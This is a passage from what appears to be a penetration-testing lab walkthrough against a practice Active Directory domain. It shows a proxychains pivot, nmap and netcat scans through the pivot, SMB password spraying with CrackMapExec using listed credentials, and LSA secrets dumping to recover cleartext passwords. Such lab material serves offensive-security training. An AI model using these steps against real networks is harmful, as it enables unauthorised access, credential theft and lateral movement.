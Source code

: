 ##### Step 2: Configure Proxychains

Edit the configuration file:
`sudo nano /etc/proxychains.conf`
At the bottom, add:
`[ProxyList] socks5  127.0.0.1 1080`
##### Step 3: Run Tools Through Proxychains
Now you can pivot into `10.10.1.0/24` using proxychains.
```bash
proxychains nmap -sT -Pn 10.10.1.0/24
```
**Example output**: Discovered live host `10.10.1.100`
	
```bash
proxychains nc -nv 10.10.1.100 445
proxychains nc -nv 10.10.1.100 80
```

---
## Phase 6: SMB Password Spraying & Credential Harvesting

### Password Spraying with CrackMapExec
```bash
# Create target list
vim targets.txt
192.168.98.2
192.168.98.30
192.168.98.120

# Spray discovered credentials
crackmapexec --verbose smb targets.txt -u john -p 'User1@#$%6'
crackmapexec --verbose smb targets.txt -u corpmngr -p 'User4&*&*'

# Look for [Pwn3d!] indicators showing local admin access
### LSA Secrets Dumping
```bash
# Dump LSA secrets from compromised machine
crackmapexec --verbose smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa

# Extract clear-text passwords from output
# Look for: corpmngr:User4&*&*

# Update /etc/hosts for domain resolution
vim /etc/hosts
192.168.98.2 warfare.corp dc01.warfare.corp
192.168.98.120 child.warfare.corp cdc.child.warfare.corp
```

---

## Phase 7: Active Directory Attacks
